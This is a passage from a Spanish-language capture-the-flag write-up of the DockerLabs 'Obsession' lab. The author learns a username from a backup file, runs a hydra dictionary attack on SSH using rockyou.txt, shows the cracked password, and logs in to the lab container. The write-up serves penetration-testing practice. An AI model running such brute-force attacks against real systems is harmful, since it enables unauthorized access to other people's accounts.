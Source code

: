 En este directorio se encuentra un archivo de texto llamado backup y vemos que se trata de un recordatorio para cambiar el usuario **russoki** como único usuario en todos sus servicios, algo que nos interesa mucho. 
![Bckp-Dir](/assets/post_img/Obsession/3-backup.png)

Como ya tenemos la informacón de que usuario se encuentra en todos los servicios, haremos fuerza bruta al servicio SSH a partir del usuario para que nos encuentre la contraseña a partir de un diccionario.
```bash
┌──(kali㉿kali)-[~/…/DockerLabs/MuyFacil/8-Obsession/content]
└─$ hydra -l russoski -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -I
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-07-31 04:14:58
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: russoski   password: iloveme
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-07-31 04:15:57
```  
Como vemos, el resultado es exitoso consiguiéndonos la contraseña **iloveme**. Ahora seguimos con la intrusión via SSH teniendo ya las credenciales. Vemos que la intrusión también es correcta con el usuario russoski.

```bash
┌──(kali㉿kali)-[~/…/DockerLabs/MuyFacil/8-Obsession/content]
└─$ ssh russoski@172.17.0.2
russoski@172.17.0.2's password: 
Welcome to Ubuntu 24.04 LTS (GNU/Linux 6.6.9-amd64 x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Last login: Tue Jun 18 04:38:10 2024 from 172.17.0.1

russoski@b772995938d8:~$ id
uid=1001(russoski) gid=1001(russoski) groups=1001(russoski),100(users)
```
